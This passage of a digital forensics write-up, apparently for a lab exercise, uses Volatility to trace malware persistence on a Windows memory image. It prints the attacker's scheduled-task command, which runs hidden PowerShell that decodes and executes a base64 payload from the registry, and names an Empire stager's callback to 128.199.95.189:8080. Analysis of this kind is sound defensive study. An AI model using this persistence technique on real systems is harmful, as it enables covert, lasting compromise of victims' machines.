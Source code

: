 
### Persistence Mechanism

#### Scheduled Task Creation
Extracting process memory of `updater.exe`:
```bash
$ python2 vol.py -f $THM/Boogeyman2/WKSTN-2961.raw --profile=Win10x64_18362 memdump -p 6216 -D $THM/Boogeyman2/volatility
```

Strings reveal a scheduled task named `Updater`:
```bash
$ strings -el 6216.dmp | grep -i "powershell.exe "
  "C:\Windows\system32\schtasks.exe" /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\""
```

#### Extracting Task Configuration
Extracting the XML configuration of the scheduled task:
```bash
$ python3 vol.py -f $THM/Boogeyman2/WKSTN-2961.raw filescan | grep -i 'System32\\Tasks\\'
$ python3 vol.py -f $THM/Boogeyman2/WKSTN-2961.raw windows.dumpfiles --virtaddr 0xe58f89295990
```

XML confirms the task runs a PowerShell command:
```xml
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
    <Actions Context="Author">
        <Exec>
            <Command>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Command>
            <Arguments>-NonI -W hidden -c "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))"</Arguments>
        </Exec>
    </Actions>
</Task>
```

#### Decoding Base64 Payload
Extracting the encoded payload from the registry:
```bash
$ strings -el registry.0xffff9582f2681000.ntuserdat.reg | grep -i -E '[a-z0-9\+\/=]{100,}' | base64 -d
```

The decoded payload is another Empire stager calling back to `128.199.95.189:8080`.

---

### Network Analysis

#### C2 Communication
Analyzing connections using Volatility:
```bash
$ python2 vol.py -f $THM/Boogeyman2/WKSTN-2961.raw --profile=Win10x64_18362 netscan | grep -C2 updater.exe
  0xe58f86b73010     TCPv4    10.10.49.181:63308             128.199.95.189:8080  CLOSED           -1                      3884-06-06 01:06:33 UTC+0000
```
